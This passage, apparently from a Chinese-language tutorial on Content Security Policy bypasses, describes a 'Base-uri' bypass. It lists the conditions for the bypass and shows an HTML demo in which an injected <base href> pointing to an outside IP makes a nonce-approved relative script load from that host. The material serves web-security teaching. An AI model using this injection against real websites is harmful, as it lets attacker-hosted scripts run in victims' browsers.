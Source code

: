 ![image-20210614162229814](CSP策略及绕过方法/image-20210614162229814.png)

### 0x09 Base-uri绕过

**条件**

1. `script-src`只使用`nonce`
2. 没有额外设置base-uri
3. 页面引用存在相对路径的`<script>`标签

**demo**

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'nonce-test'">
<base href="//10.146.110.37/">
<script nonce='test' src="1.js"></script>
```

![image-20210614162248786](CSP策略及绕过方法/image-20210614162248786.png)

如果未设置nonce将无法绕过

![image-20210614162255139](CSP策略及绕过方法/image-20210614162255139.png)
